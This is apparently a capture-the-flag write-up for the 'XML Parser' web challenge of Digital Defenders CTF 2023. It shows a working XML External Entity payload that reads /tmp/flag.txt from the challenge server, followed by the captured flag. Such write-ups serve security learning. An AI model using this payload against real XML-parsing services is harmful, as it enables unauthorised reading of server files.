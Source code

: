 # XML Parser (Web) - Digital Defenders CTF 2023

## Description
> Oh, how delightful! You're just dying to receive some input to parse, aren't you? And the best part is, we never bother checking your inputs because, who needs safety precautions? So, here's a special treat just for you—a perfectly crafted server that will surely make your parsing adventure a thrilling rollercoaster ride. Don't fret about any potential risks or vulnerabilities. After all, why would anyone take advantage of such a glorious opportunity? So, go ahead and trust blindly as you delve into parsing this magical piece of data. Best of luck, dear friend, and may the parsing deities shower you with blessings!
>
> _The flag is in /tmp/flag.txt_

> **FLAG FORMAT:** bi0s{...}

## The Website
![image](https://github.com/ghost-1608/CTF-Write-Ups/assets/64543976/f9c9e84f-63ba-4be0-8333-8e1e31f37610)
The website has a textbox to enter XML in. On pressing submit, it parses the XML to display the output right there.

I entered the following code to try it out
```XML
<?xml version="1.0"?>
    <change-log>
        <text>Hello World</text>
    </change-log>
```
  
On entering the above code and hitting "Submit", we get
![image](https://github.com/ghost-1608/CTF-Write-Ups/assets/64543976/1db85083-9519-449d-aa0d-44fe988761da)

## Initial Takeaway
The challenge description made the goal very clear, to exploit XML External Entity Attack. The vulnerability this attack uses is parsing of XML code as is by a website.
So all I had to do was to craft an XML code to execute some command. The description also mentioned that the flag is located in `/tmp/flag.txt`. This made it clear that I had to execute a command to get the contents of `flag.txt`.
Another point to note down was that the website was using a POST request.

## Execution
I crafted the following XML code to execute my command
```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///tmp/flag.txt">
]>
<foo>&xxe;</foo>
```
In simple words, it does exactly as I had planned earlier. The code gets the output of `flag.txt` and stores it in the variable `xxe`. Then it dereferences `xxe` to display the output on the screen the same way it displayed "Hello World".
So, I entered the code as decided and hit "Submit".
  
Et voilà
![image](https://github.com/ghost-1608/CTF-Write-Ups/assets/64543976/d5140bbf-57de-4d60-a24e-0930192cc8ea)

**(DISCLAIMER):** One thing to note is that according to the information released by the organisers, some CTF challenges use dynamic flags. Hence, the flag I solved the challenge with and the flag at the time of writing this write-up are different.
The method however remains the same.

**FLAG:** `bi0s{icsTXDzJJDiv6FeaNshGkw==}`

